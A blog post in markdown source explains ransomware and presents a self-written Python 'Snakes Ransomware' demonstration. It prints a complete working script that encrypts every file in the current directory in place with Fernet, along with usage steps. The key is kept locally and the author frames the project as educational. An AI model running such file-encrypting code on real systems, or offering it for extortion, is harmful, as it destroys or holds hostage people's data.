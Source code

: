 ```yaml
---
author: Krishna Chaitanya
pubDatetime: 2022-05-15T15:22:00Z
modDatetime: 2022-05-16T09:12:47.400Z
title: Understanding Ransomware and a Dive into Snakes Ransomware
slug: Understanding-Ransomware-and-a-Dive-into-Snakes-Ransomware
featured: true
draft: false
tags:
  - docs
description:
  Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.
---
```


## What is Ransomware?

Ransomware is a type of malicious software designed to block access to a computer system or encrypt its data until a sum of money, or ransom, is paid. It’s a form of cyber extortion that has become increasingly prevalent, targeting individuals, businesses, and even government organizations. Once infected, victims are often left with a grim choice: pay the ransom to regain access to their files or risk losing them forever.

### How Ransomware Works

Ransomware typically spreads through phishing emails, malicious websites, or software vulnerabilities. When the malware is executed, it begins encrypting files on the victim's system, rendering them inaccessible. A ransom note is then displayed, demanding payment in exchange for the decryption key.

The use of ransomware has evolved over the years, with cybercriminals employing more sophisticated techniques to avoid detection and increase their chances of receiving payment. Unfortunately, even after paying the ransom, there’s no guarantee that the files will be restored.

## Introduction to Snakes Ransomware

Snakes Ransomware is a Python-based tool I’ve developed to demonstrate the encryption and decryption processes involved in ransomware. While this project is intended purely for educational purposes, it highlights the mechanics of ransomware in a controlled environment.

### Features of Snakes Ransomware

- **File Encryption:** Encrypts all files in a specified folder.
- **Key Generation:** Creates a unique key for each encryption process, which is crucial for decryption.
- **File Decryption:** Provides a way to decrypt the previously encrypted files using the generated key.

## How to Use Snakes Ransomware

### Step 1: Installation

First, ensure you have all the required dependencies installed. You can do this by running the following command in your terminal:

```bash
pip install -r requirements.txt
```

### Step 2: Encryption Process

To encrypt files within a target folder:

1. **Copy the Encryption Script:**
   - Place the `snakes-encrypt.py` file into the folder you want to encrypt.

2. **Execute the Script:**
   - Open a terminal and navigate to the folder containing the script.
   - Run the following command:
   
     ```bash
     python snakes-encrypt.py
     ```

3. **Encryption Completion:**
   - After execution, all files in the folder will be encrypted, and a key file named `snakes-key.key` will be generated. This key is essential for decrypting the files.

### Step 3: Decryption Process

To decrypt the files:

1. **Copy the Decryption Script:**
   - Place the `snakes-decrypt.py` file in the folder containing the encrypted files.

2. **Add the Encryption Key:**
   - Ensure the `snakes-key.key` file is in the same directory as the decryption script.

3. **Execute the Decryption Script:**
   - Run the following command in your terminal:
   
     ```bash
     python snakes-decrypt.py
     ```

4. **Decryption Completion:**
   - The encrypted files will be restored to their original state.

## How Snakes Ransomware Was Created

Creating Snakes Ransomware involved a deep dive into cryptography and file handling in Python. The key aspects of the program include:


### **Encryption Script Explanation**

This script is designed to encrypt all files in the current directory, except for the encryption script itself and the key file.

#### **1. Importing Necessary Libraries:**
```python
import os
from cryptography.fernet import Fernet
```
- `os`: Used to interact with the operating system for file operations.
- `cryptography.fernet`: A symmetric encryption method from the `cryptography` library, which is used to encrypt and decrypt files.

#### **2. Listing Files to Encrypt:**
```python
files = []

for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print(files)
```
- The script lists all files in the current directory.
- It excludes the encryption script (`snakes-encrypt.py`) and the key file (`snakes-key.key`) to prevent them from being encrypted.

#### **3. Generating the Encryption Key:**
```python
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)
```
- A new encryption key is generated using `Fernet.generate_key()`.
- This key is saved in a file called `snakes-key.key`. This key is essential for decrypting the files later.

#### **4. Encrypting the Files:**
```python
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)
```
- The script loops through each file in the `files` list.
- It reads the contents of each file in binary mode (`"rb"`).
- The contents are encrypted using the generated key.
- The encrypted contents are then written back to the original file in binary mode (`"wb"`), replacing the original contents with the encrypted data.

### **Complete Encryption Script**

Here's the complete encryption script with comments for clarity:

```python
#!/usr/bin/env python3

import os
from cryptography.fernet import Fernet

# List of files to be encrypted
files = []

# Identify files to encrypt, excluding the script and key files
for file in os.listdir():
    if file == "snakes-encrypt.py" or file == "snakes-key.key":
        continue
    if os.path.isfile(file):
        files.append(file)
print("Files to be encrypted:", files)

# Generate encryption key and save it to a file
key = Fernet.generate_key()

with open("snakes-key.key", "wb") as thekey:
    thekey.write(key)

# Encrypt each file
for file in files:
    with open(file, "rb") as thefile:
        contents = thefile.read()
    contents_encrypted = Fernet(key).encrypt(contents)

    with open(file, "wb") as thefile:
        thefile.write(contents_encrypted)

print("Encryption completed.")
```


## Conclusion

Ransomware remains one of the most significant threats in cybersecurity today. By understanding how it works through projects like Snakes Ransomware, we can better prepare ourselves to defend against such attacks. Remember, the Snakes Ransomware project is strictly for educational purposes, and I strongly discourage any malicious use of this knowledge.

For more insights into cybersecurity and programming, stay tuned to Krishna-Blogs!

---
[Github Repo](https://cs50.harvard.edu/python/2024/) -- For referance

Contact: ekrishnachaitanya2004@gmail.com 'or'
        snakesnnetworks@gmail.com
